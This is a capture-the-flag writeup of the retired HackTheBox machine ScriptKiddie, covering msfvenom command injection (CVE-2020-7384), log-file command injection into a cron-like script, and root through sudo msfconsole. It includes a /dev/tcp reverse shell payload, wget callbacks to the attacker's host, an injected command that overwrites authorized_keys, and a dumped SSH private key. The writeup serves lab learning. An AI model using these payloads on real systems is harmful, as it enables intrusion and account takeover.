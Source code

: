 Title:HTB: ScriptKiddie
Date: 06-07-2021 10:25
category:security
tags:security, boot2root, HTB, msfvenom, nmap, msfconsole
meta:security, boot2root, HTB, msfvenom, nmap, msfconsole

<img class="align-left" src="/media/2021.06/sk_card.png" alt="ScriptKiddie Card" width="262">

This box is a writeup about a retired HacktheBox machine:
[ScriptKiddie](https://www.hackthebox.eu/home/machines/profile/314) publish on
February 6, 2021 by
[0xdf](https://www.hackthebox.eu/home/users/profile/4935).
This box is rated as easy box the user part implies to use CVE-2020-7384, the
root part is just abusing a bash script and using msfconsole.

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

Let us start as always by a `nmap` scan. Only port 22 (SSH) and 5000 with a HTTP
service are open.

    :::text
    # Nmap 7.91 scan initiated Sun Feb  7 08:50:44 2021 as: nmap -p- -sSV -oN nmap 10.129.94.194
    Nmap scan report for 10.129.94.194
    Host is up (0.011s latency).
    Not shown: 65533 closed ports
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Sun Feb  7 08:51:09 2021 -- 1 IP address (1 host up) scanned in 24.16 seconds


## Web

The webpage seems to be a "hacker" personal page with a few wrapper around
classical tools as `nmap`, `msfvenom` and `searchsploit`.

![Homepage](/media/2021.06/sk_01.png)

The "template file" option with `msfvenom` is strange. After a few Google research we found
about CVE-2020-7384 which is "msfvenom APK template command injection" and has
[a public exploit available](https://www.exploit-db.com/exploits/49491)


We change the payload to perform a `wget` on our python server

    :::python
    # Change me
    payload = 'wget 10.10.14.64:8000'

We got a hit on our local python HTTP which confirm our RCE.

    :::text
    kali@kali:/tmp$ python3 -m http.server
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
    10.129.94.194 - - [07/Feb/2021 09:27:09] "GET / HTTP/1.1" 200 -

We change the payload again for a reverse shell.

    :::python
    payload = 'sh -i >& /dev/tcp/10.10.14.64/4433 0>&1'

We run netcat to catch it and got the user flag.

    :::text
    kali@kali:/tmp$ nc -l -p 4433
    id
    sh: 0: can't access tty; job control turned off
    $ uid=1000(kid) gid=1000(kid) groups=1000(kid)
    $ cd
    $ cat user.txt
    51573bc36ae7c15d3bb11c3b043a5dea

# Root

## Persistance

We look at our user home folder and get the SSH private key

    :::text
    $ ls -al
    total 60
    drwxr-xr-x 11 kid  kid  4096 Feb  3 11:49 .
    drwxr-xr-x  4 root root 4096 Feb  3 07:40 ..
    lrwxrwxrwx  1 root kid     9 Jan  5 20:31 .bash_history -> /dev/null
    -rw-r--r--  1 kid  kid   220 Feb 25  2020 .bash_logout
    -rw-r--r--  1 kid  kid  3771 Feb 25  2020 .bashrc
    drwxrwxr-x  3 kid  kid  4096 Feb  3 07:40 .bundle
    drwx------  2 kid  kid  4096 Feb  3 07:40 .cache
    drwx------  4 kid  kid  4096 Feb  3 11:49 .gnupg
    drwxrwxr-x  3 kid  kid  4096 Feb  3 07:40 .local
    drwxr-xr-x  9 kid  kid  4096 Feb  3 07:40 .msf4
    -rw-r--r--  1 kid  kid   807 Feb 25  2020 .profile
    drwx------  2 kid  kid  4096 Feb  3 07:40 .ssh
    -rw-r--r--  1 kid  kid     0 Jan  5 11:10 .sudo_as_admin_successful
    drwxrwxr-x  5 kid  kid  4096 Feb  7 14:25 html
    drwxrwxrwx  2 kid  kid  4096 Feb  3 07:40 logs
    drwxr-xr-x  3 kid  kid  4096 Feb  3 11:48 snap
    -r--------  1 kid  kid    33 Feb  7 13:48 user.txt
    $ ls .ssh/
    authorized_keys
    id_rsa
    id_rsa.pub
    $ cat .ssh/authorized_keys
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCt/
    MXWipZH4vmE0lLycTlwk0eFcEQilnSCwpQoLA9QEiFAMvopNThWyjGkst6HNPdDvSDlJEfTtW4PaOFA
    seUICcwuidMXc4xepu1t0hrfv5Wn7SiwQwIDwE0DvRRSpLIr9I0wfjjEPnvc4y7uuMvsf0hegZLMnChg
    stWWCw99DS5q0YdXxkIC7eKlI90nHyUHL3ULwXDBk6NWhPmJ90yDaFC4iD0yVP3xmjKjl0iotkqbhKhR
    AD8bUINZ7anXTw4Hb0iF5tMAttB8JbLts5zvgQtYrciKE4Qnl4F+MO5yg3G03s9V69K4R+TXmI4TZKUH
    fEpNnReQ+73uOqgjH5VeZr0TmSLEszfFfXRcv7t4jxOboYnS+lgR1V2iGHzSle+nAlVLHqlwP5RTtwaO
    wE0nbykigyz/h4KNCn0rU69fYWSrkcFPYOSm92QKmaMJuXqnycjuqLmHMD2XKSuhlpgD/VmQL34C7pju
    4h+/78qK50+itG0FCiSy6IRd5DIfTkU= kid@scriptkiddie
    $ cat .ssh/id_rsa
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEArfzF1oqWR+L5hNJS8nE5cJNHhXBEIpZ0gsKUKCwPUBIhQDL6KTU4
    <SNIP>
    sOeM4jMTD4DJbb/8Jsh6yzW45V3bgPp1Hm4nI3AZ8SjSI4VqtO9CcDKtPnvh3/jm5VEx9W
    bK3NNrAo9t2tlfAAAAEGtpZEBzY3JpcHRraWRkaWUBAg==
    -----END OPENSSH PRIVATE KEY-----

## scanlosers

We can now  directly connect using SSH. Looking at the accessible files we found
that the `pwn` user has a script `scanlosers.sh` readable by our user. This
script read a log file containing "hacking" attempts and run a `nmap --top10` on
it.

    :::text
    $ ssh kid@10.129.94.194 -i sc_id_rsa
    <SNIP>

    kid@scriptkiddie:~$ cat ../pwn/scanlosers.sh
    #!/bin/bash

    log=/home/kid/logs/hackers

    cd /home/pwn/
    cat $log | cut -d' ' -f3- | sort -u | while read ip; do
        sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
    done

    if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi


We download /home/kid/.ssh/authorized_keys localy and rename it to test a few
payload locally. The `cut -d' ' -f3-` means that the 3 first "words"
(characters separated by a space) will be dropped.

The idea is to execute a payload in order to add our SSH key to the "pwn"
user. As always we start by a simple `wget` to ensure the RCE. After a few
attempt we found the following payload that we add to the `hackers` file:

    :::text
    echo 'q w e 127.0.0.1 127.0.0.1 ; wget 10.10.14.64:8000/a -O /home/pwn/.ssh/authorized_keys  ; #' > ../kid/logs/hackers

As the "kid" private key is now also authorized for the "pown" user, we connect
using directly SSH.

    :::text
    $ ssh pwn@10.129.94.194 -i sc_id_rsa
    <SNIP>
    pwn@scriptkiddie:~$ id
    uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)

## msfconsole

Our "pown" user can run `msfconsole` as "root" without any password, which
quickly give us a shell using the `bash` msf command allowing us to get the root
flag.

    :::text
    pwn@scriptkiddie:~$ sudo -l
    Matching Defaults entries for pwn on scriptkiddie:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User pwn may run the following commands on scriptkiddie:
        (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
    pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole

    <SNIP>
    msf6 > bash
    [*] exec: bash

    root@scriptkiddie:/home/pwn# id
    uid=0(root) gid=0(root) groups=0(root)
    root@scriptkiddie:/home/pwn# cat /root/root.txt
    b4ccca123e8efc9cc65296e42ed4cabf


# Wrapping up

An easy box exploiting a few mechanisms. The msfvenom exploit was fun to use.

